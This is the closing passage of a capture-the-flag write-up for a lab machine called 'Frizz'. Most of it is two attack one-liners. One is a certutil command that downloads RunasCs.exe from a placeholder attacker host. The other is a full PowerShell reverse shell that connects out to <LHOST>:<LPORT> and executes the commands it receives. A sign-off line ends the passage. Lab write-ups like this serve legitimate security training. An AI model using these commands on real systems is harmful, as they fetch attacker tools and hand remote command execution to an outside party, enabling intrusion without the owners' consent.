 ## Shell download with certutil

```
certutil -urlcache -split -f "http://<ip>:<port>/RunasCs.exe" RunasCs.exe
```

## Reverse shell command (PowerShell)

```
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('<LHOST>',<LPORT>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()}"
```

---

## **That was the Frizz box! Thanks for grinding through it!**

Nice chain, lots of pain, but even more learning! 🚀
